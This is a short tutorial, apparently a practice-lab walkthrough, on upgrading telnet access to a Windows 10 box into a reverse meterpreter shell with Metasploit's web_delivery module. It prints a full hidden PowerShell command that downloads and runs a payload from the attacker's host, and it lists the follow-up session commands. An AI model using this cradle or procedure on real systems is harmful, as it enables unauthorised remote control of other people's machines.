







February 19, 2021
In this tutorial we will see how to login to a Windows 10 machine using telnet and then run Metasploit against it to get a meterpreter shell. Now, this might be a rare situation in which we get access to a Windows 10 machine using telnet. However, this technique works no matter what kind of shell access you have to your target box.
So, first we telnet into the box and enter in our credentials.
You can see that the regular Windows commands like cd and dir works.
We can use the "exploit/multi/script/web_delivery" module to generate a PowerShell command that we can run on the target to get a meterpreter shell. "show options" shows the different options available for this module.
set TARGET 2 means we want a PowerShell command to run on the box. There are three options: 0 > Python (default), 1 > PHP and 2 > PowerShell. We set the interface on which we are listening for connection to the "tun0" interface with set LHOST tun0. And then we run exploit to generate the payload that we are going to use on the target.
The full command is powershell.exe -nop -w hidden -c $K=new-object net.webclient;$K.proxy=[Net.WebRequest]::GetSystemWebProxy();$K.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $K.downloadstring('http://10.10.14.13:8080/EwJompov6HX');. If the image is too small, open it in a new tab.
Once we run the payload on the target, we get a reverse meterpreter shell. The sessions command shows the available connections to our target. In this case we have only one session which has the ID of 1. It shows us the name of the box which is "ACCESS" and also the username of the shell which is "security". sessions -i 1 allows us to interact with session 1. And at the bottom we get the meterpreter prompt.
The sysinfo command shows information about the target host. It shows the computer name, operating system, architecture, system language and meterpreter version (32-bit or 64-bit). And the getuid command shows the user with which we are currently logged into the box.
